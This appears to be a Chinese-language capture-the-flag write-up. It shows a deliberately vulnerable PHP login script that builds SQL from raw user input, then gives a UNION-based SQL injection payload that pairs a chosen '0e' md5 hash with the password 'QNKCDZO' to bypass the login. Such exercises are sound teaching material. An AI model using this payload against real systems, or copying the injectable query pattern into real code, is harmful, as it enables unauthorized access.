



## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以看到这是一个登陆页面，右键查看网页源代码，我们可以看见有一个跳转`source.txt`



3.访问`source.txt`可以看到php的登陆逻辑处理代码

```php
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("challenges") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pwd from interest where uname='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pwd"];
  if (($row[pwd]) && (!strcasecmp($pass, $row[pwd]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

用户名处存在注入。所以思路如下，我们给用户名传入：

`user=' union select "0e830400451993494058024219903391"`

构成的sql语句为：

`select pwd from interest where uname=' ' union select "0e830400451993494058024219903391"`

4.第一个查询结果为空，所以结果返回的是我们传入的0e830400451993494058024219903391，即此时，$row[pw]=0e830400451993494058024219903391。而md5(QNKCDZO)正是该0e字符串值。

5.所以我们可以构造payload：`user=' union select "0e830400451993494058024219903391"#&pass=QNKCDZO`获取flag



